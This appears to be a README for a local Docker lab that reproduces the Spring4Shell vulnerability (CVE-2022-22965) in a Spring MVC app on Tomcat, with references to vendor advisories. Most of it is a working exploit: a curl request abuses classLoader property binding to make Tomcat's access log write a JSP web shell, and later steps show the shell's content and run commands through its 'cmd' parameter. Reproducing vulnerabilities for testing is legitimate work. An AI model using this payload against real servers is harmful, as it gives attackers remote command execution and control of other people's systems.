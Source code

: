 # Replicate spring shell 0-day vulnerability
- In a spring mvc WAR application running on Tomcat.
- The issue is reproducible in a Java 11 compiled WAR running in tomcat 8
- The issue is NOT reproducible in a Java 8 compiled WAR running in tomcat 8
  - Switch the properties in pom.xml to use Java 8 and spring 3.2.9
  - Switch Dockerfile base image to  tomcat:8-jdk8-corretto


## Replicate vulnerability
1. Run command to:
   - Package a war file
   - Build a tomcat 8 corretto 11 image
   - Run a container from the image        
 `mvn clean package && docker build . -t springshell && docker run --name springshell --rm -p 8080:8080 springshell`
2. Run curl command attempts to create a jsp file in the tomcat webapps/ROOT folder. The jsp name is springshell.jsp
   1. If the jsp is not created, there is no vulnerability
```
curl --request POST \
  --url http://localhost:8080/springshell/zeroday \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --header 'c: Runtime' \
  --header 'prefix: <%' \
  --header 'suffix: %>//' \
  --data 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di' \
  --data class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp \
  --data class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT \
  --data class.module.classLoader.resources.context.parent.pipeline.first.prefix=springshell \
  --data class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
3. Review jsp content:
`docker exec -it springshell bash -c "cd webapps/ROOT;cat springshell.jsp"` will display
`<% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %>//`
__This mean the application is compromised__


4. Exploitation: Hit this url in the browser and update the shell cmd (_cmd_ query param) to print the result of the command
`http://localhost:8080/springshell.jsp?cmd=pwd`
  - If there is no response or a 404,  __the application is not compromised_
  - If the output is the response of a shell command execution, __the application is compromised__. Refer remediation steps in the references below

5. Switch java and spring versions
    - Switch the properties in pom.xml to use Java 8 and spring 3.2.9
    - Switch Dockerfile base image to __tomcat:8-jdk8-corretto__
    - Repeat above steps and you will see that the service is not compromised
    

## Reference
- https://tanzu.vmware.com/security/cve-2022-22965
- https://blog.sonatype.com/new-0-day-spring-framework-vulnerability-confirmed
- https://www.rapid7.com/blog/post/2022/03/30/spring4shell-zero-day-vulnerability-in-spring-framework/